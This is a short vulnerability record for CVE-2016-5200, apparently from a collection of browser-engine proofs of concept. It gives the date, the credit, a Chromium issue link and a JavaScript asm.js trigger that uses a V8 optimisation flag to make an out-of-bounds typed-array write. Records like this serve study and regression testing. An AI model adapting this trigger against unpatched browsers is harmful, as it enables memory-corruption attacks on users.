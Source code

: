 # CVE-2016-5200

- Date: Oct 2016
- Credit: Choongwoo Han

## PoC

```javascript
boom0 = (function(stdlib, foreign, heap){
            "use asm";
            var ff = Math.sign;
            var m32 = new stdlib.Int32Array(heap);
            function f(v) {
              m32[((1-ff(NaN) >>> 0) % 0xdc4e153) & v] = 0x12345678;
            }
            return f;
         })(this, {}, new ArrayBuffer(256));
%OptimizeFunctionOnNextCall(boom0);
boom0(0xffffffff)
```

## Reference

- [Issue](https://crbug.com/658114)
